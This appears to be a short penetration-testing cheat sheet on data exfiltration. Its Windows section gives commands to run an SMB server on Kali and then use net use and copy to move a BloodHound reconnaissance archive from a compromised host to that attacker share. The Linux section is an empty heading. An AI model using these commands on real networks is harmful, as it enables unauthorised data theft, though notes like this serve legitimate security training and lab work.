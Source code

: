 # Exfiltration options

## Windows

### SMB service

1. Run SMB on kali:

`smbserver.py xxxshare . -smb2support -username xxx -password xxx`

2. Exfiltrate data from Windows host:

```
net use \\10.10.10.xxx\xxxshare /u:xxx xxx

copy 20191018035324_BloodHound.zip \\10.10.10.xxx\xxxshare\
```

## Linux